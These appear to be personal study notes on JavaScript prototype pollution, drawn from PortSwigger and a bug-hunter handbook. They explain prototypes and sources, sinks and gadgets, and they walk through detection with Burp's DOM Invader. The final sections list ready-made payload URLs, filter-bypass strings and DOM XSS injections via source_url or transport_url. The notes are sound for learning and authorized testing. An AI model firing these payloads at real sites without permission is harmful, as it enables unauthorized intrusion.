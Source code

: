 ### Prototype Pollution
  - https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
  - Objects in js is key value pair
  - ```const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}```
   - Every object is linked to another object, and that object is linked to another object, untill null.
   - Ex: in JS, String are autoassign `String.prototype`. This becomes helpful, because a lot of methods like `Trim()` are in that prototype so string object can use them directly.
   - JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead.
   - Although this doesn't have a formally standardized name, __proto__ is the de facto standard used by most browsers
   - We can modify prototypes ```String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}```
  - https://portswigger.net/web-security/prototype-pollution
  -  Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys.
  -  Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way. This can allow an attacker to inject a property with a key like __proto__, along with arbitrary nested properties.
  -  Successful exploitation of prototype pollution requires the following key components:
    - A prototype pollution source - This is any input that enables you to poison prototype objects with arbitrary properties. Commonly, URL, JSON input, web messages
    - A sink - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    - An exploitable gadget - This is any property that is passed into a sink without proper filtering or sanitization.
 - Client Side:
   1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
    ```vulnerable-website.com/?__proto__[foo]=bar```
   2. In your browser console, inspect Object.prototype to see if you have successfully polluted it with your arbitrary property:
   ```
   	Object.prototype.foo
	// "bar" indicates that you have successfully polluted the prototype
	// undefined indicates that the attack was not successful
   ```
   3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
	```vulnerable-website.com/?__proto__.foo=bar```
   4. Repeat this process for each potential source.
   5. In BURP, we can use DOM invader https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution
   6. Now Find gadget
   7. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
   8. In Burp, enable response interception (Proxy > Options > Intercept server responses) and intercept the response containing the JavaScript that you want to test.
   9. Add a debugger statement at the start of the script, then forward any remaining requests and responses.
   10. In Burp's browser, go to the page on which the target script is loaded. The debugger statement pauses execution of the script.
   11. While the script is still paused, switch to the console and enter the following command, replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
   12. Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
    13. The property is added to the global Object.prototype, and the browser will log a stack trace to the console whenever it is accessed.
    14. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
    15. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
    16. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as innerHTML or eval().
    17. Repeat this process for any properties that you think are potential gadgets.
  - https://gowthams.gitbook.io/bughunter-handbook/list-of-vulnerabilities-bugs/prototype-pollution
  - DOM invador is the way to go, makes life much easier, note: sometimes extra chars like `1` is being appended like this`if(manager && manager.sequence){ manager.macro(ar2z0fxj6prototypepollutionsequencear2z0fxj1) }` so add `-` in the end to ignore the 1.

### Via the constructor
	- sometimes the `__proto__` accessor is blocked, we maybe able to use `constructor` property.
### quick check
https://example.com/?__proto__[foo]=bar
https://example.com/?__proto__.foo=bar
https://example.com/?constructor.[prototype][foo]=bar
https://example.com/?constructor.prototype.foo=bar
# Bypass sanitization
https-//example.com/?__pro__proto__to__[foo]=bar`

https-//example.com/?__pro__proto__to__.foo=bar

https-//example.com/?constconstructorructor[prototype][foo]=bar

https-//example.com/?constconstructorructor.prototype.foo=bar

https-//example.com/?constconstructorructor[protoprototypetype][foo]=bar

https-//example.com/?constconstructorructor.protoprototypetype.foo=bar


Check in browser
Object.prototype.foo
constructor.prototype.foo

// the expected output: "bar"

# DOM XSS
https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=alert(1)-

source_url can be [transport_url]


